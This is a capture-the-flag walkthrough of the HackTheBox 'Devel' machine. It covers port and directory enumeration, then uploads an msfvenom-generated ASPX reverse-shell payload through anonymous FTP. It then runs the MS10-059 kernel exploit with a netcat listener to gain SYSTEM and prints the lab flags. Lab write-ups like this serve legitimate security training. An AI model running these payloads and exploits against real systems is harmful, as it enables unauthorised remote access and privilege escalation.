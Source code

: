 ```yaml
---
title: HackTheBox - Devel
date: 2022-12-10 22:00:00 +0530
categories: [HackTheBox]
tags: [hackthebox, Easy]
---
```


-------

Starting the Machine and adding the IP to `/etc/hosts` with hostname as `devel.htb`

## Enumeration

### Namp

```console
$ sudo nmap -Pn devel.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 00:47 EST
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.043s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

$ sudo nmap -sC -sV -Pn -p21,80 devel.htb  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 00:49 EST
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 12-06-22  05:31AM                 1442 cmdasp.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
| 12-06-22  06:32AM                 2753 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.24 seconds
```


From Nmap scans
1. Port 21 and 80 are open.
2. Port 21 is being used for **Microsoft ftpd**. _Anonymous_ FTP login is allowed. There are some files present in the share.
3. Port 80, is running **Microsoft IIS httpd 7.5** 

### Gobuster

```console
$ gobuster dir -u http://devel.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devel.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/06 01:13:33 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 154] [--> http://devel.htb/aspnet_client/]                                                                                   
Progress: 4592 / 4615 (99.50%)===============================================================
2022/12/06 01:13:54 Finished
===============================================================
```

We get a **403- Forbidden** when we try to browse to http://devel.htb/aspnet_client/

### FTP
```console
$ ftp anonymous@devel.htb
Connected to devel.htb.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.

$ ftp> dir
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.

$ ftp> mget *  # fetches all the files
```

These files are starting point for deploying MS webserver. 

Since we can browse to devel.htb/iisstart.htm (this htm file is in ftp share), lets try to create aspx page with our payload to get a reverse shell and place it in ftp.

```console
# generate payload
$ msfvenom -p windows/shell_reverse_tcp LHOST="10.10.14.18" LPORT=4242 -f aspx > shell_reverse_tcp.aspx

# connect to FTP and place the payload
$ ftp anonymous@devel.htb
$ ftp> mput shell_reverse_tcp.aspx
```

Now browse to http://devel.htb/reverse_shell_tcp.aspx to get a reverse shell on port 4242.


## Privilege Escalation

As you have put the payload in FTP, we can also put winpeas.bat file in FTP to execute it.

> Trying to run **winpeas.exe** in DOS mode does not work. hence we have used bat file here.

The uploaded files are available in `c:\inetpub\wwwroot`

After running winPEAS.bat, we can see that `SeImpersonatePrivilege` privilege is **Enabled**. Let's not use this to escalate. lets check for kernel exploits. For this,I moved to using `windows-exploit-suggester`. Usage instructions can be found here : https://github.com/Pwnistry/Windows-Exploit-Suggester-python3

After Running Windows-exploit-suggester, the output implies, the machine is vulnerable to many vulnerabilities. going through lowest to highest, we can try each exploit on the machine one by one. The exploit that actually worked is `MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`.

Here is the executable for exploiting : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

Using FTP, place the executable in the machine using binary mode. If not, the exploit will not work.

```console
$ ftp> binary
200 Type set to I.
$ ftp> put chimichurri.exe
```

Now, open another netcat listener to catch the shell this exploit gives us.

`nc -lnvp 1234`

Exploit now on devel's low priv shell.

`MS10-059.exe kali-ip 1234`

![devel](/assets/img/htb_devel/devel.png)

we are now **System** ! we can get both the flags now.

```console
$ c:\Users\babis\Desktop>type user.txt
type user.txt
4835b2a692f3a01c2e1801d633c33b55

$ c:\Users\Administrator\Desktop>type root.txt
type root.txt
6c2cfd162cdf7cc3025c1b55d90bb79e
```